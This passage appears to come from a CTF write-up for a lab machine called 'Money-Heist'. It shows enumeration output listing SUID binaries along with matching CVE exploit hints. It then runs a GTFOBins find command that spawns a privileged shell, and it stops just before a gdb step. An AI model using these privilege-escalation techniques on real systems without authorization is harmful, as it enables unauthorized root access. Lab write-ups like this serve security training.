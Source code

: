                       ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                                                          
                      ╚════════════════════════════════════╝                                                                                                                                                                                
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                                                                             
strings Not Found                                                                                                                                                                                                                           
You own the SUID file: /bin/sed                                                                                                                                                                                                             
-rwsr-sr-x 1 tokyo tokyo 31K Dec  4  2012 /bin/nc.openbsd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 31K Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40K Jan 27  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 44K May  8  2014 /bin/ping
-rwsr-xr-x 1 root root 27K Jan 27  2020 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 40K Mar 27  2019 /bin/su
-rwsr-xr-x 1 root root 40K Mar 27  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 23K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-xr-x 1 root root 39K Mar 27  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-sr-x 1 daemon daemon 51K Jan 15  2016 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 33K Mar 27  2019 /usr/bin/newgidmap
---s--s--x 1 denver denver 217K Feb  8  2016 /usr/bin/find
-rwsr-xr-x 1 root root 134K Feb  1  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 74K Mar 27  2019 /usr/bin/gpasswd
You can write SUID file: /usr/bin/gdb
-rwsr-xr-x 1 root root 53K Mar 27  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 71K Mar 27  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 33K Mar 27  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 109K Jul 11  2020 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 83K Apr 10  2019 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 15K Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 42K Jun 12  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 419K May 27  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 35K Mar  6  2017 /sbin/mount.cifs



Looking at the files with interesting permission.. we see the permission of find.
Let's run the command of find that we found in GTFObin
`find . -exec /bin/sh -p \; -quit`

nairobi@Money-Heist:~$ find . -exec /bin/sh -p \; -quit
$ cd /home
$ ls
arturo  denver  nairobi  tokyo
$ cd tokyo
/bin/sh: 3: cd: can't cd to tokyo

Let's try running gdb command from GTFObin:
